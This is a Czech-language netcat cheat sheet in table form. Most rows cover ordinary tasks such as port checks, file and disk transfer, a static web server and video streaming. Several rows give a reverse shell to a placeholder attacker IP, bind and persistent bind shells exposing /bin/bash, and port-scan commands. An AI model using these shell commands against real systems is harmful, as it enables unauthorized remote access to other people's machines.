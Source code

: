 # <center>netcat cheatsheet</center>
|<b>Prikaz</b>|<b>Popis</b>|
|---|---|
|<b>nc 10.0.0.10 80</b>|Testuje zda-li je vzdaleny TCP port otevreny (-u pro UDP)|
|<b>nc -l 1234</b>|Nastavi TCP server naslouchajici na portu 1234 (-u pro UDP)|
|<b>nc -k -l 1234</b>|Udrzuje naslouchajici netcat nazivu dokud aktualni spojeni neskonci|
|<b>nc 10.0.0.10 1234 < file.tgz</b>|Prenos souboru na vzdaleny koncovy bod pres netcat|
|<b>cat file.tgz \| nc 10.0.0.10 1234</b>|Prenos souboru na vzdaleny koncovy bod pres netcat|
|<b>nc -l 1234 > file.tgz</b>|Prijem a ulozeni souboru pres netcat|
|<b>tar -cf-. \| nc -v 10.0.0.10 1234</b>|Vytvori tarball a prenese jej do netcatu|
|<b>nc -lv 1234 \| tar -xvf -</b>|Prijme tarball a extrahuje ho do aktualniho adresare|
|<b>nc -z 10.0.0.10 1-1000</b>|Oskenuje rozsah portu na cil|
|<b>nc -z 10.0..10 1-100 200-300</b>|Oskenuje vice rozsahu portu|
|<b>nc -vuz -w1 10.0.0.10 1-1000</b>|Oskenuje rozsah UDP portu s 1-sekundovou prodlevou|
|<b>printf "GET /HTTP/1.0\\r\\n\\r\\n" \| nc google.com 80</b>|Odesle HTTP pozadavek|
|<b>nc <utocnikova-ip> 4444 -e /bin/bash</b>|Vytvori reverzni shell na cilovem hostu|
|<b>nc -l 4444 -e /bin/bash</b>|Vytvori bind shell na cilovem hostu|
|<b>nc -k -l 4444 -e /bin/bash</b>|Vytvori presistentni netcat naslouchac pro bind shell|
|<b>nc -l 12345 -c \`uptime\`</b>|Spusti prikaz a presmeruje vystup na klienta|
|<b>dd if=/dev/sdb \| gzip -c \| nc 10.0.0.10 1234</b>|Presun harddisku v gzipu|
|<b>nc -l 1234 \| sudo dd of=/backup/sdb.img.gz</b>|Ulozi presunuty harddisk img|
|<b>while true; do nc -l 8000 < test.html; done</b>|Server pro statickou web stranku|
|<b>mkdir /tmp/pipe; cat video.mp4 > /tmp/pipe & nc -ul 12345 < /tmp/pipe</b>|Zacne streamovat video pri pripojeni klienta|
|<b>nc -u 10.0.0.10 12345 \| mplayer -</b>|Prijem a prehrati video streamu s mplayerem|